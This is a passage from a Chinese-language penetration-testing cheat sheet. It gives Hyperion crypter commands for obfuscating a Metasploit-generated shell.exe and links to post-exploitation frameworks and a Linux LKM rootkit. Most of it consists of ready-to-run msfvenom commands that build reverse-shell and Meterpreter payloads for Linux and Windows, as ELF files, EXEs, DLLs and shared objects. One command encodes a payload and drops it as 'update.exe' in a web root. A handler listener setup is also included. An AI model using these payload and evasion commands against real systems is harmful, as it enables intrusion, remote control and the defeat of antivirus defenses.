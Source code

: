     cd hyperion/
    i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
    wine hyperion.exe shell.exe(之前用 msf 生成的文件) crypted.exe(混淆之后的文件)
    ```
- [d4rk007/RedGhost](https://github.com/d4rk007/RedGhost) - linux 的后渗透框架,可用于权限维持、提权等操作，半图形化.实际测试感觉不太行。
- [f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile) - LKM Linux rootkit
- [jm33-m0/emp3r0r](https://github.com/jm33-m0/emp3r0r) - Linux/Windows post-exploitation framework made by linux user
- [Maka8ka/NGLite](https://github.com/Maka8ka/NGLite)

---

#### msfvenom

msfvenom 可用于生成正向或反向 shell 的 payload，配合 meterpreter 使用进行渗透测试相当方便，不过在实际使用时，需要进行相应的免杀处理

**查看**
```bash
msfvenom -l [ payloads | encoders | nops | platforms | archs | encrypt | formats | all ]
```

**连接**
```bash
msfconsole
use exploit/multi/handler
set payload <payload-name>      # 例如 set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
set EnableStageEncoding false
set ExitOnSession false
exploit -j -z
```

##### binaries

**linux**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f elf > shell.elf

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x86_linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x6_4linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf-so -o payload.so
```

**windows**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe

msfvenom --payload windows/meterpreter/reverse_tcp LHOST=********* LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 -a x86 --platform Windows -f dll >x86.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 --platform Windows -f dll >x64.dll
```
